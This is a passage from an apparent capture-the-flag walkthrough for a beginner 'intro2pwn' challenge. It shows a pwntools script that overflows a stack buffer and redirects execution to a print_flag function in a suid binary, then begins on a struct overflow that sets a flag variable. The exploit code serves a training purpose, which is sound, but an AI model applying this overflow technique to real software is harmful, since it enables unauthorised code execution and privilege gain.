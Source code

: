 Pwntools offers an easy way to do this, with the p32() function (and p64 for 64-bit programs). This is similar to the struct.pack() function.

```python
#!/usr/bin/python

from pwn import * # pwntools module

padding = cyclic(cyclic_find('jaaa'))
eip = p32(0xdeadbeef)

payload = padding + eip
print(payload)
```

```
python p.py > attack
```

Run this new text file as input to intro2pwn3 in gdb, and make sure that you get an invalid address at 0xdeadbeef.

```
EIP  0xdeadbeef
```

The last thing we need to do is find the location of the print_flag() function. To find the print_flag() funtion, type this command into gdb:

```
print& print_flag
```

![print_flag](https://user-images.githubusercontent.com/88755387/132096351-032db5fa-2a2a-4885-b91d-ab42c57b756c.png)

Replace the 0xdeadbeef in your code with the location of the print_flag function. Once, again, we can run:

```
python p.py > attack
```

Input the attack file into the intro2pwn3 binary in the command line (because gdb will not use the suid permissions), like this:

```
./intro2pwn3 < attack
```

## __Networking__

### __Unpacking the code__

For this challenge, we do not need to concern ourselves with main(), but only the target_function(). The struct at the beginning of the function, called targets, has two variables: buff and printflag. The buff is a char array of size MAX (MAX was defined to 32), and the printflag is a volatile int. These variables will be right next to each other in the stack, so if we manage to overflow the buff variable, then we can edit the printflag. If you see further down in the code, if the printflag variable is equal to 0xdeadbeef (in hex) then it will send the flag.
